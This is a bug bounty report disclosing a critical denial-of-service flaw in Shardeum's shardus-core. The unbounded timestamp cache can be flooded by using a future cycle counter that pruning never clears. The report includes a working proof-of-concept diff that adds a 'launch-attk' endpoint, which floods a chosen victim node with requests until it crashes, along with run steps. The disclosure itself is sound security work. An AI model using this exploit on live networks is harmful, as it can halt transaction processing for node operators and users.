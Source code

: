 
# Crashing the network by filling timestamp cache of nodes indefinitely

Submitted on Aug 3rd 2024 at 01:20:11 UTC by @ZhouWu for [Boost | Shardeum: Core](https://immunefi.com/bounty/shardeum-core-boost/)

Report ID: #33963

Report type: Blockchain/DLT

Report severity: Critical

Target: https://github.com/shardeum/shardus-core/tree/dev

Impacts:
- Increasing network processing node resource consumption by at least 30% without brute force actions, compared to the preceding 24 hours
- Network not being able to confirm new transactions (total network shutdown)

## Description


## Description
In shardus/core there is network generated timestamp for transactions. Nodes hold these timestamp in a cache. When node do cache ask, if the cache is hit, it'll get back a timestamp but if a cache is a miss, the node will generate a new timestamp and store it in the cache.
The cache is unlimited sized JSON blob. Attack can abuse this behavior of nodes by asking for timestamp of a non-existent transaction. This will cause the node to generate a new timestamp and store it in the cache. The attacker can keep doing this until the cache can't keep up with maximum system memory available and the node will crash.
There is cache cleaning mechanism where it clear all the entry from old cycles, but it does not check the entry that are associated with future cycles. The attacker will leverage this by adding really large cycle counter to bypass the cache pruning mechanism. This attack only need single malicious node.

## References
- [Timestamp Cache askBinary occurance](https://github.com/shardeum/shardus-core/blob/4d75f797a9d67af7a94dec8860220c4e0f9ade3c/src/state-manager/TransactionConsensus.ts#L1081-L1092)
- [Timestamp Cache Endpoint Handler at the receiver node](https://github.com/shardeum/shardus-core/blob/4d75f797a9d67af7a94dec8860220c4e0f9ade3c/src/state-manager/TransactionConsensus.ts#L283-L330)
- [Create new entry in the cache if it's not seen](https://github.com/shardeum/shardus-core/blob/4d75f797a9d67af7a94dec8860220c4e0f9ade3c/src/state-manager/TransactionConsensus.ts#L315)




## Proof of Concept
Since we're going to overload the system by filling main memory (RAM), testing the POC in local is not suitable because as victim node hold more memory the local system will be unstable and attacking node can crash itself. So, we need to test this in a realistic WAN environment.

- Have a legit network launch in a WAN environment with multiple nodes, with their own WAN IPs. 
- Apply the patch to the malicious node. shardus/core

```diff
diff --git a/src/utils/nestedCounters.ts b/src/utils/nestedCounters.ts
index 3ebbb782..d01a1f60 100644
--- a/src/utils/nestedCounters.ts
+++ b/src/utils/nestedCounters.ts
@@ -5,6 +5,11 @@ import Crypto from '../crypto'
 import { isDebugModeMiddleware, isDebugModeMiddlewareLow } from '../network/debugMiddleware'
 import { getNetworkTimeOffset, shardusGetTime } from '../network'
 import { Utils } from '@shardus/types'
+import { InternalRouteEnum } from '../types/enum/InternalRouteEnum'
+import { getTxTimestampReq, serializeGetTxTimestampReq } from '../types/GetTxTimestampReq'
+import { deserializeGetTxTimestampResp, getTxTimestampResp } from '../types/GetTxTimestampResp'
+import * as crypto from "crypto"
+
 
 type CounterMap = Map<string, CounterNode>
 interface CounterNode {
@@ -32,6 +37,44 @@ class NestedCounters {
   }
 
   registerEndpoints(): void {
+
+    Context.network.registerExternalGet('launch-attk',(req, res)=>{
+
+            const victim = req.query.victim as string
+         
+          const node = Context.shardus.getNodeByPubKey(victim)
+
+          const cycleMarker = crypto.randomBytes(254).toString()
+          const cycleCounter = 4294967295 
+
+          setInterval(()=>{
+
+            const promises = []
+
+
+            for( let i = 0; i < 800; i++){
+              promises.push(Context.p2p.askBinary<getTxTimestampReq, getTxTimestampResp>(
+                node,
+                InternalRouteEnum.binary_get_tx_timestamp,
+                {
+                  cycleMarker,
+                  cycleCounter,
+                  txId: crypto.randomBytes(254).toString(),
+                },
+                serializeGetTxTimestampReq,
+                deserializeGetTxTimestampResp,
+                {}
+              ))
+            }
+
+
+            Promise.allSettled(promises).then((results) => {
+            })
+          }, 1000)
+
+          res.send(JSON.stringify(node))
+    })
+
     Context.network.registerExternalGet('counts', isDebugModeMiddlewareLow, (req, res) => {
       profilerInstance.scopedProfileSectionStart('counts')
 
```
- Link it to the shardeum
- Run the malicious node, stake it and let it go active 
- Grab the id of the victim node 
- do a get request to malicious node such that `GET http://<malicious-node-ip>:<malicious-node-port>/launch-attk?victim=<victim-node-id>`
- The victim node system memory usage will grow indefinitely and eventually crash.
- Can observe using system manager inspector tool like top, htop, etc.
- Or alternatively you can see it at `GET http://<victim-node-ip>:<victim-node-port>/memory` (this statistic endpoint only available in debug mode)

## Impact
This POC proof not only crashes the a single node but a little code modification can target the whole network. 
